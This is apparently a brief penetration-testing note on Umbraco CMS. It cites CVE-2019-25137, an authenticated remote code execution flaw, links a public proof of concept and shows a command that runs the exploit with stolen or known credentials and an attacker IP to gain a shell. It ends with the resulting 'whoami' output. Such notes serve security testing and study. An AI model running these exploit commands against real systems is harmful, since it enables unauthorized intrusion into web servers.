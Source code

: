 # Umbraco

Umbraco is an open-source CMS built on the \`.NET platform — specifically using ASP.NET Core or ASP.NET MVC, depending on the version.

## Versions

### 4.11.8-7.15.10, 7.12.4

Vulnerable to **Authenticated RCE** ([CVE-2019-25137](https://nvd.nist.gov/vuln/detail/CVE-2019-25137)). There is working [PoC](https://github.com/Jonoans/Umbraco-RCE?tab=readme-ov-file) available.

{% code overflow="wrap" %}
```bash
# Exploit the target
$ uv run exploit.py -u <username_email> -p <password> -w http://<target:port> -i <attacker_IP>
...
# List the current user
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```
{% endcode %}


